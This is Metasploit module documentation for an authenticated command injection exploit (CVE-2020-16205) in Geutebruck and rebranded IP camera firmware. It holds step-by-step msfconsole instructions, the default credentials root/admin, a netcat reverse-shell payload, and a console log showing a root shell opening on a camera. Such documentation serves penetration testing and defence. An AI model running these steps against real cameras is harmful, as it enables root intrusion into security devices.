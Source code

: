## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.25,
firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.14.5.

### Description

This module exploits an authenticated OS command injection vulnerability (CVE-2020-16205) within the
`server` GET parameter of /uapi-cgi/admin/testaction.cgi when the `type` parameter is set to `ntp`.
This issue occurs due to a lack of validation on the `server` parameter, which allows an attacker to
inject a new line character, followed by the command they wish to execute, at which point the server will
then interpret the new string as a separate command to be executed. Successful exploitation will result in
remote code execution as the `root` user.

Users can find additional details of this vulnerability on the advisory page at https://us-cert.cisa.gov/ics/advisories/icsa-20-219-03.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_testaction_exec`
  4. Do: `set httpusername root`
  5. Do: `set httppassword admin`
  6. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `set payload cmd/unix/reverse_netcat_gaping`
  7. Do: `check` to be sure the target is vulnerable
  8. Do: `exploit`
  9. You should get a shell

## Options

The default credentials to log on the web interface are root/admin.

 ### HTTPUSERNAME
 A username used to authenticate on the admin page. **Default: root**

 ### HTTPPASSWORD
The password of the username used to authenticate on the admin page. **Default: admin**

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.14.5.
```
msf5 > use exploit/linux/http/geutebruck_testaction_exec
msf5 exploit(linux/http/geutebruck_testaction_exec) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httpusername root
httpusername => root
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httppassword admin
httppassword => admin
msf5 exploit(linux/http/geutebruck_testaction_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf5 exploit(linux/http/geutebruck_testaction_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf5 exploit(linux/http/geutebruck_testaction_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2020-04-02 18:26:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-ge52275bd #1 PREEMPT Thu Jul 25 20:25:39 KST 2019 armv5tejl GNU/Linux
```

